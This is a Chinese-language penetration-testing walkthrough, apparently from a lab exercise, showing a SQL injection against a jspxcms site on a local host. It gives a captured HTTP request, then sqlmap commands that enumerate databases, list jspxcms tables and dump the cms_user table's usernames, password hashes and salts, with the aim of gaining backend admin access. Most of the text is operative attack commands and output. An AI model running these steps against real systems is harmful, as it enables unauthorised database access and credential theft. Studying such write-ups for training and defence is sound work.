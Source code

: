 
burp 抓到数据包如下：

```http
GET /page.do?action=comm_news&act=list&classid=2 HTTP/1.1
Host: 192.168.0.102:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=814974DCE83B36E0492AC1918DADCF33
Connection: close
```

#### SQLMap测试

1、爆库

```bash
python sqlmap.py -r sql.txt --batch --dbs
```

```
可用数据库: [7]:
[*] bank
[*] information_schema
[*] jspxcms
[*] mysql
[*] performance_schema
[*] sys
[*] tomexam
```

2、爆出jspcms的表名（前提mysql账号是root权限才可以跨库查询），因为我们知道jspcms如何后台提权

```bash
python sqlmap.py -r sql.txt --batch --dbs -D "jspxcms" --tables
```

3、一步到位，我们自己本地搭建jspcms就可以知道数据库的结构，于是直接爆出后台密码

```bash
python sqlmap.py -r sql.txt --batch -D jspxcms -T cms_user -C f_username,f_password,f_salt --dump
```

```
+------------+------------------------------------------+------------------+
| f_username | f_password                               | f_salt           |
+------------+------------------------------------------+------------------+
| anonymous  | anonymous                                | anonymous        |
| admin      | 51c52ae56562d8c538600385909595b009467f0b | 9b2b38ad7cb62fd9 |
| moonsec    | 508034a9e6e643ec4dd78357ce3a3da460bee5be | a4aff126c86ef107 |
+------------+------------------------------------------+------------------+
```
